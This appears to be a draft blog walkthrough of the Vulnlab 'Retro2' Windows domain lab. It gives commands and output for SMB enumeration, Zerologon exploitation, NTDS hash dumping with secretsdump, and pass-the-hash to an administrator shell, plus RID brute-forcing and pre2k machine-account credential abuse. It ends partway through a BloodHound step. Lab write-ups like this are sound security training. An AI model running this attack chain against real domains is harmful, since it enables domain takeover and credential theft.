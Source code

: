 +++
title = '[Vulnlab] Retro2'
date = 2024-10-09T21:22:04+02:00
draft = true
tags = ['pentesting']
+++

# Walkthrough
Windows Machine! Let's test `enum4linux` to get all the information:

```bash
$enum4linux-ng -A $IP -u 'a' -p ''
...
DNS domain: retro2.vl
FQDN: BLN01.retro2.vl
[+] Domain SID: S-1-5-21-1604173555-1041150481-2903404482

SHARES:
[*] Testing share Public
[+] Mapping: OK, Listing: OK

[+] After merging OS information we have the following result:
OS: Windows Server 2008 R2 Datacenter 7601 Service Pack 1
OS version: '6.1'
OS release: ''
OS build: '7601'
Native OS: Windows Server 2008 R2 Datacenter 7601 Service Pack 1
Native LAN manager: Windows Server 2008 R2 Datacenter 6.1
```

First, add the entries to the `/etc/hosts` file
```bash
echo -e "$IP\tBLN01.retro2.vl\tretro2.vl" >> /etc/hosts
```

I don't include the portscan since it's not needed for this challenge.

Let's evaluate our findings:
1. We can access a `Public` share with a guest user
2. The Server is Windows Server 2008

## 0. Windows server 2008
According to Google, and a blog post from [Hewlett Packard Enterprise](https://www.hpe.com/emea_europe/en/servers/windows-server-2008-end-of-support-migration.html). 
The end of Life for Windows Server 2008 was January 14th, 2020.
![Windows EOL](/images/vulnlab_retro2/windows2008EOL.png)

It's highly likely (even if not intended) that the server is vulnerable to 
CVE's that were published after that date.

Since I assume that the `netexec` devs are busy bees implementing the
latest and greatest recent exploit, we can go through the list of modules and 
see which exploits we want to test. We only focus on the *LOW PRIVILEGE MODULES*
```
$ nxc smb -L
LOW PRIVILEGE MODULES
[*] add-computer              Adds or deletes a domain computer
[*] dfscoerce                 Module to check if ...
...
```

Here is a (super) basic rundown of all modules according to the description and some basic googling. No guarantee that I'm right 
| Module | Info |
| ------ | ---- |
| add-computer| Utility |
| dfscoerce| Exploit -> NTLM-relay/Responder |
| drop-sc| Utility - Write file to writable shares |
| enum_av| Utility - Antivirus |
| enum_ca| Utitily - Certificate Authorities |
| gpp_autologin| Utility - Plaintext Passwords |
| gpp_password| Utility - Plaintext Passwords| 
| ioxidresolver| Utility - find more interfaces |
| ms17-010| Exploit -> Admin on any machine (disclosure 14.04.2017) |
| nopac| **Exploit -> Domain Admin (disclosure 09.11.2021)** |
| petitpotam| Exploit -> NTLM-relay/Responder|
| printerbug| Exploit -> NTLM-relay/Responder|
| printnightmare| **Exploit -> RCE+Privesc (disclosure 29.06.2021)**|
| scuffy| Utility - Write files to writable shares|
| shadowcoerce| Exploit -> NTLM-relay/Responder|
| slinky| Utility - Write file to writable shares |
| spider_plus| Utility - List all files |
| spooler| Utility - Detect printspooler |
| webdav| Utility - Detect WebClient service |
| zerologon| **Exploit -> Domain Admin (disclosure 11.08.2020)**|

The interesting modules are:
* nopac
* printnightmare
* zerologon

Let's test them:

```
export KRB5CCNAME="$(realpath ./FS01\$.ccache)"
```
### nopac
My tool seems broken, let's get back to it later:

```bash
$ nxc smb BLN01.retro2.vl --use-kcache -M nopac
[...j]
KerberosError: Kerberos SessionError: KDC_ERR_PREAUTH_FAILED(Pre-authentication
                    information was invalid)
```

### printnightmare
```bash
nxc smb BLN01.retro2.vl --use-kcache -M printnightmare
[-] Failed to bind: Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

### zerologon
```bash
nxc smb BLN01.retro2.vl -M zerologon
[...]
[+] retro2.vl\FS01$ from ccache
VULNERABLE
Next step: https://github.com/dirkjanm/CVE-2020-1472
```

## Exploiting Zerologon
```
$ zerologon-exploit.py BLN01 $IP
[...]
Success! DC should now have the empty string as its machine password.
```

```bash
$ secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 "$DOMAIN"/'BLN01$@'"$IP"
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::
[...]
```

And we win
```powershell
$wmiexec.py -hashes :"$NT_HASH" "$DOMAIN"/"$USER"@"$TARGET"
Impacket for Exegol - v0.10.1.dev1+20240403.124027.3e5f85b - Copyright 2022 Fortra - forked by ThePorgs

[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
retro2\administrator
C:\>type user.txt
VL{********************************}
C:\>type Users\Administrator\Desktop\root.txt
VL{********************************}
```


## Real path 1. Usernames
With a guest login, we can get usernames with `netexec rid-brute`:
```bash
$ nxc smb "$IP" -u 'guest' -p '' --rid-brute | tee u
SMB                      10.10.66.223    445    BLN01            [+] retro2.vl\guest:
SMB                      10.10.66.223    445    BLN01            498: RETRO2\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB                      10.10.66.223    445    BLN01            500: RETRO2\Administrator (SidTypeUser)
SMB                      10.10.66.223    445    BLN01            501: RETRO2\Guest (SidTypeUser)
SMB                      10.10.66.223    445    BLN01            502: RETRO2\krbtgt (SidTypeUser)
[...]
```

and use some bash magic to generate a users list
```bash
$ grep SidTypeUser u | awk '{print $6}' | cut -d '\' -f2 | tee users.txt
Administrator
Guest
krbtgt
admin
BLN01$
[...]
```
## 2. Domain User
There a two quick ways to get a domain users with a username list:
1. `username=password`
2. pre2k Machine accounts 
### username=password
The command is this, but there is no simple password
```
nxc smb "$IP" -u users.txt -p users.txt --continue-on-success --no-bruteforce
```

### pre2k users
[Pre Created User Accounts](https://www.trustedsec.com/blog/diving-into-pre-created-computer-accounts)
are accounts that:
1. End with a $
2. The password is the username in lowercase without the $

Due to how authentication functions, the nicest way is to just create a TGT
for those users. We can use impacket's `getTGT` or use a nice shiny specialize tool [pre2k](https://github.com/garrettfoster13/pre2k?tab=readme-ov-file).

```bash
grep '\$' users.txt > pre2kusers.txt
pre2k unauth -d "$DOMAIN" -dc-ip "$IP" -inputfile pre2kusers.txt
 -save
[21:55:02] INFO     VALID CREDENTIALS: retro2.vl\FS02$:fs02
[21:55:02] INFO     Saving ticket in FS02$.ccache
[21:55:05] INFO     VALID CREDENTIALS: retro2.vl\FS01$:fs01
```

## 3. Exploit

```
bloodhound.py --zip -c All -d "$DOMAIN" -k -u 'FS01$' -no-pass -
ns $IP
```